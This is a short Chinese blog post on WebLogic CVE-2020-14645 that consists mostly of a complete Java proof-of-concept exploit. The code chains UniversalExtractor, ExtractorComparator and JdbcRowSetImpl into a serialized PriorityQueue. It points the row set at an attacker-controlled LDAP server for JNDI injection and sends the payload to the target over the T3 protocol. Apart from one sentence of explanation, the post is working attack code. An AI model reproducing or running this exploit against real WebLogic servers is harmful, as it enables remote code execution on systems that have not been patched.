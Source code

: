```yaml
---
title: "Weblogic CVE-2020-14645"
date: 2020-07-20T11:58:04+08:00
draft: false
tags:
- Java
- Weblogic
series:
- Weblogic
categories:
- 代码审计
---
```


UniversalExtractor任意调用get、is方法导致JNDI注入。

<!--more-->

```java
package com.supeream;

import com.sun.rowset.JdbcRowSetImpl;
import com.supeream.serial.Reflections;
import com.supeream.serial.Serializables;
import com.supeream.weblogic.T3ProtocolOperation;
import com.tangosol.util.comparator.ExtractorComparator;
import com.tangosol.util.extractor.UniversalExtractor;

import java.util.PriorityQueue;

public class CVE_2020_14645 {
    public static void main(String[] args) throws Exception {
        // CVE_2020_14645
        UniversalExtractor extractor = new UniversalExtractor("getDatabaseMetaData()", null, 1);
        final ExtractorComparator comparator = new ExtractorComparator(extractor);

        JdbcRowSetImpl rowSet = new JdbcRowSetImpl();
        rowSet.setDataSourceName("ldap://172.16.2.1:1389/#Calc");
        final PriorityQueue<Object> queue = new PriorityQueue<Object>(2, comparator);

        Object[] q = new Object[]{rowSet, rowSet};
        Reflections.setFieldValue(queue, "queue", q);
        Reflections.setFieldValue(queue, "size", 2);
        byte[] payload = Serializables.serialize(queue);
        T3ProtocolOperation.send("172.16.2.132", "7001", payload);
    }
}
```
Test on jdk8u121 weblogic12.2.1.4
![image.png](https://y4er.com/img/uploads/20200827111476.png)

由此拓展CVE-2020-14625。

**文笔垃圾，措辞轻浮，内容浅显，操作生疏。不足之处欢迎大师傅们指点和纠正，感激不尽。**